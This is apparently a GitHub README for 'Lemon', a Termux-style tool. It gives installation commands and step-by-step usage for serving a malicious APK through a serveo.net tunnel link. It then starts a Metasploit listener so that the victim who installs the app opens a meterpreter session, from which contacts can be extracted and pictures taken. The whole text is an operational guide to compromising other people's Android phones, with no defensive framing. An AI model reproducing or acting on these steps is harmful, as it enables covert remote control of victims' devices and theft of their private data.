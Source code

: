 **Requirements :-**

1.Metasploit-Framework

2.PHP

3.Openssh


**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1. Start the script by executing 'python attack.py'

2. Once the script completes, copy the link you get under "Forwarding HTTP port.." and put your payload's name after it, for example : https://lente.serveo.net/lemon.apk, this link downloads the malicious apk when opened.

3. Open up a new session, and type "msfconsole -r automate.rc", this should start metasploit and   provide it necessary options. Once it stops, type "run" and press enter, this will start the   listener.

4. When the target installs and open the apk using your link, you will get a meterpreter session in your listener.

5. Now you can type 'help' for a list of options, example extract contacts, snap a picture etc.

